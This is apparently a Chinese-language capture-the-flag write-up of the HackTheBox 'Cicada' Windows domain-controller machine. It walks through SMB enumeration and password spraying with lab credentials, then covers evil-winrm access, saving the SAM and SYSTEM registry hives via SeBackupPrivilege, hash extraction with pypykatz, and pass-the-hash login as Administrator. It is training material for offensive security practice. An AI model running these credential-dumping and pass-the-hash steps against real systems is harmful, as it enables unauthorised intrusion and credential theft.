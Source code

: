 ```yaml
---
description: AD枚举 / SeBackupPrivilege /
---
```


# ✔️ Cicada

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA cicada 10.129.5.101 --open
```

<figure><img src="../../.gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出信息和开放端口，判断该机器应该是域控，先将域名添加进/hosts文件中：

<figure><img src="../../.gitbook/assets/3 (2).png" alt=""><figcaption></figcaption></figure>

* 尝试使用匿名登录SMB服务，获得了一些SMB共享目录：

<figure><img src="../../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

* 依次枚举各个目录后，发现只有/HR目录可以进入，查看后发现一个名为Notice from HR.txt的文本文件，把它下载到本地：

```bash
smbclient \\\\10.129.5.101\\HR
dir
mget *
```

<figure><img src="../../.gitbook/assets/5 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

* 查看Notice from HR.txt文件内容得知是一封录用通知，里面包含了一个新入职员工用户的默认密码：<mark style="color:red;">**Cicada$M6Corpb\*@Lp#nZp!8**</mark>

<figure><img src="../../.gitbook/assets/8 (2).png" alt=""><figcaption></figcaption></figure>

* 使用enum4linux进行枚举，没什么收获：

```bash
enum4linux 10.129.5.101
```

<figure><img src="../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

* 此时已经获取到了一个有效密码，但是还没有有效用户名，使用nxc进行暴破得到一串用户名：

```bash
nxc smb 10.129.5.101 -u "guest" -p '' --rid-brute
```

<figure><img src="../../.gitbook/assets/10 (2).png" alt=""><figcaption></figcaption></figure>

* 把这些用户名复制下来保存为一个username.txt文件，先用kerbrute跑一下有8个有效用户名：

```bash
./kerbrute_linux_amd64 userenum --dc 10.129.5.101 -d cicada.htb username.txt
```

<figure><img src="../../.gitbook/assets/11 (2).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 然后再使用nxc和用户名列表，还有之前收集到的默认密码，进行暴破：

```bash
nxc smb 10.129.5.101 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

<figure><img src="../../.gitbook/assets/12 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (2).png" alt=""><figcaption></figcaption></figure>

* 已获取到了一个有效凭证：<mark style="color:red;">**michael.wrightson :Cicada$M6Corpb\*@Lp#nZp!8**</mark>
* 通过用户michael查询目标系统上更多的用户信息，找到了用户david的密码：

```bash
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

<figure><img src="../../.gitbook/assets/9 (29).png" alt=""><figcaption></figcaption></figure>

* 此时又得到了一个新的有效凭证：`david.orelious ：aRt$Lp#7t*VQ!3`，利用该凭证登录share共享目录：

```bash
smbclient -L //10.10.11.35 -U 'david.orelious'
```

<figure><img src="../../.gitbook/assets/10 (31).png" alt=""><figcaption></figcaption></figure>

* 依次枚举各个目录，在\DEV目录中发现一个powershell脚本文件：**Backup\_script.ps1**

```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious'
```

<figure><img src="../../.gitbook/assets/11 (28).png" alt=""><figcaption></figcaption></figure>

* 阅读该脚本发现另一个新的有效凭证：`emily.oscars ：Q!3@Lp#M6b*7t*Vt`

<figure><img src="../../.gitbook/assets/12 (27).png" alt=""><figcaption></figcaption></figure>

* 利用emily这个凭证使用evil-winrm进行登录，get shell：

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

<figure><img src="../../.gitbook/assets/13 (28).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS进行信息收集：

```bash
upload winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/14 (25).png" alt=""><figcaption></figcaption></figure>

* 同时可以简单的手动枚举一下，比如当前账户的权限有哪些：

```bash
whoami /priv
```

<figure><img src="../../.gitbook/assets/15 (24).png" alt=""><figcaption></figcaption></figure>

* 发现当前账户有备份操作的权限，这意味着可以利用该特权下载sam.hive文件和system.hive文件，从中提取Administrator的密码哈希，再利用它进行登录

### 漏洞利用

* 创建一个temp目录：

```bash
mkdir C:\temp
```

<figure><img src="../../.gitbook/assets/16 (23).png" alt=""><figcaption></figcaption></figure>

* 将目标系统的sam文件和system文件存到当前的temp目录中：

```bash
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```

<figure><img src="../../.gitbook/assets/17 (21).png" alt=""><figcaption></figcaption></figure>

* 将这两个文件下载到Kali本地

### ROOT

* 使用这两个文件提取凭证：

```bash
pypykatz registry -sam sam.hive system.hive -o secrets.txt
```

<figure><img src="../../.gitbook/assets/18 (20).png" alt=""><figcaption></figcaption></figure>

* 获得Administrator的密码哈希：

<figure><img src="../../.gitbook/assets/19 (20).png" alt=""><figcaption></figcaption></figure>

* 利于获取到的哈希进行登录，获得admin权限的shell：

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H '87e7c93a3e8a0ea4a581937016f341'
```

<figure><img src="../../.gitbook/assets/20 (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (15).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}

{% endhint %}
